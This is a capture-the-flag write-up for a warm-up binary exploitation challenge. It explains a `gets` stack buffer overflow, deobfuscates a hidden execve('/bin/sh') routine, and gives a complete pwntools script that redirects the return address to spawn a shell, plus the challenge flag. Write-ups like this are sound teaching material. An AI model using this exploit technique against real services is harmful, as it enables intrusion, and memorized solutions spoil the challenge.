





# Welcome Pwn3R (pwn)

**`Author:`** [Malik](https://github.com/malikDaCoda)

## Description

> Welcome Pwn3R!! We have prepared this challenge to warm you up for what's coming next ;)

## Brief summary

- `gets` function is used --> buffer overflow
- there is a `secret` function, after analyzing it we understand it makes an `execve` syscall to open a shell: `execve(filename="/bin/sh", argv=0, envp=0)`
- overflow the buffer to overwrite the return address with the `secret` function's address
- pop a shell :)

## Write-up

### Analysis

Let's start with checking the protections of the binary using `checksec` :



Good news :  
- PIE is disabled : addresses of the binary are fixed (not randomized with ASLR)
- No stack canary : there's no stack canary protection for stack buffer overflows
- Relocations partially read-only : GOT table can still be overwritten

Upon running the [binary](challenge/welcome), we are greeted with the following message :



This can be an indicator that we're dealing with a classic stack buffer overflow.  

Let's look at the binary in ghidra :



Effectively, we have a stack buffer overflow with the vulnerable `gets` function. This allows overwriting the return address on the stack.  
What also catches our attention is the `secret` function, it's never called in main, but it is still in the binary. Let's look at it :



The decompilation doesn't describe much, the disassembly is more interesting :  
```asm
MOV	RAX, -0x770e266b5d4b7330
MOV	RDI, -0x7766554433221101
XOR	RAX, RDI
PUSH	RAX
MOV	RDI, RSP
XOR	RSI, RSI
XOR	RDX, RDX
MOV	RAX, 0x1337
XOR	RAX, 0x130c
SYSCALL
```

A system call is made, but the code is a little obfuscated. After some analysis, here's how it can be re-written as :  
```asm
/* execve(path="/bin/sh\x00", argv=0, envp=0) */
MOV	RAX, 0x68732f6e69622f /* "/bin/sh\x00" */
PUSH	RAX
MOV	RDI, RSP
MOV	RSI, 0
MOV	RDX, 0
MOV	RAX, 0x3b /* SYS_execve */
SYSCALL
```

So basically this is a syscall for opening a `/bin/sh` shell.

### Exploitation

First we need to calculate the offset between the buffer and the return address. We can do that either by summing the sizes of the local variables on the stack + 8 bytes for the frame pointer, or by directly calculating it in gdb :



I'm using [pwndbg](https://github.com/pwndbg/pwndbg) by the way, which is a great gdb extension for binary exploitation and reverse engineering.  
Anyway, the first and only argument of `gets` is the address of the buffer `0x7fffffffd7c0`, and the return address is placed at `0x7fffffffd808`, then the offset is equal to `0x48`.  
Since PIE is disabled, the address of `secret` function will always be the same. So to finally get a shell, we need to send `0x48` bytes of junk + the 8-byte address of `secret`.  
We can use pwntools to get the address of `secret` : `elf.sym.secret` (elf is the loaded binary).

### Solve script

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/welcome")

HOST, PORT = "localhost", 1337

context.binary = elf
context.terminal = ["tmux", "splitw", "-h", "-p", "75"]

def main():
    global io

    # offset from return address
    offset = 0x48

    io = conn()

    io.recvuntil(": ")
    payload = flat(
        b'A'*offset,
        elf.sym.secret
    )
    io.sendline(payload)

    io.interactive()

def conn():
    global libc
    gdbscript = '''
    '''
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        p = process([elf.path])
        if args.GDB:
            gdb.attach(p, gdbscript=gdbscript)
        return p

if __name__ == "__main__":
    io = None
    try:
        main()
    finally:
        if io:
            io.close()

```

### Flag

`shellmates{g000d_s7@rt_Pwn3R_U_c4n_c0Nt1Nu3!!}`
